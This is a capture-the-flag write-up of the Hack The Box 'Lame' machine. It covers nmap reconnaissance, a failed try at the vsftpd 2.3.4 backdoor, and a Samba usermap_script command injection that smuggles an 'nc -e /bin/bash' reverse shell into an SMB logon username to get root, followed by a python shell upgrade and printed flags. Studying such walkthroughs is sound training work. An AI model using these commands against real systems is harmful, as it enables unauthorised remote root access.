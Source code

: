 ```yaml
---
layout: post
title: Lame
tags: [OSCP, Writeup, Linux, Injection, SMB]
description: "Lame write-up"
---
```


![Lame logo](/assets/imgs/lame/lame.png)

### This is an easy linux box

## Tool used

------

- find
- nc
- nmap
- python
- searchsploit
- smbclient

## Reconnaissance

------

### Nmap

```
nmap -sV -sC -oA lame 10.10.10.3 -Pn -v

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h06m30s, deviation: 2h49m44s, median: 6m28s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-07-15T06:12:45-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

Here's what nmap teaches us :

- port 21 (FTP) vsftpd 2.3.4 : anonymous login
- port 22 (SSH) OpenSSH 4.7p1
- port 139 (NETBIOS)  Samba smbd 3.X - 4.X
- port 445 (SMB) Samba smbd 3.0.20-Debian

We have some version, let's check for known exploits.

### Searchsploit

#### FTP

![searchsploit FTP](/assets/imgs/lame/searchsploit_vsftpd.PNG)

I download the metasploit exploit like so :

```
searchsploit -m unix/remote/17491.rb
```

Looking at the exploit, we see that the backdoor payload is initiated in response to a :) character  combination in the username which represents a smiley face. The code  sets up a bind shell listener on port 6200.

Let's try it manually :

We triggered the backdoor, by using a smiley after the username.

```
ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:liodeus): test:)   
331 Please specify the password.
Password:
```

Then we connect to the bind shell on port 6200.

```
nc 10.10.10.3 6200
id
whoami
```

But we got nothing, too bad, the FTP server must be patch !

#### SSH

![searchsploit OPENSSH](/assets/imgs/lame/searchsploit_openssh.PNG)

As we can see, there is some exploit to do some "Username Enumeration". It might be interresting, but at the moment I don't really need a username. So if don't find anything with SMB, I'll get back to that exploit.

#### SMB

![searchsploit SMB](/assets/imgs/lame/searchsploit_samba3.0.20.PNG)

I see a "Command Execution", let's look at it.

## Exploit

------

Download the metasploit exploit :

```
searchsploit -m unix/remote/16320.rb
```

The interresting part is here :

```
username = "/=`nohup " + payload.encoded + "`"
```

 By specifying a username containing shell meta characters, attackers can execute arbitrary commands.([https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script))

I want a reverse shell so my payload should look something like this :

```
./=`nohup nc -e /bin/bash 10.10.14.4 1234`
```

Let's try it !

Open a nc listener :

```
nc -lvp 1234
```

Then triggered the exploit.

```
smbclient //10.10.10.3/tmp --option='client min protocol=NT1'

Enter WORKGROUP\liodeus's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/bash 10.10.14.4 1234`"
Password:
```

We have a connection back to our listener and we are "root", nice !

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.3] 38077
id
uid=0(root) gid=0(root)
whoami
root
```

### Shell upgrade

Now that we have a shell, let's upgrade it :

```
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/#
```

And now go read the flags !

## Flags

------

### User.txt

```
find /home -name "user.txt"
/home/makis/user.txt
cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

### Root.txt

```
find /root -name "root.txt"
/root/root.txt
cat /root/root.txt
92caac3be140ef409e45721348a4e9df
```
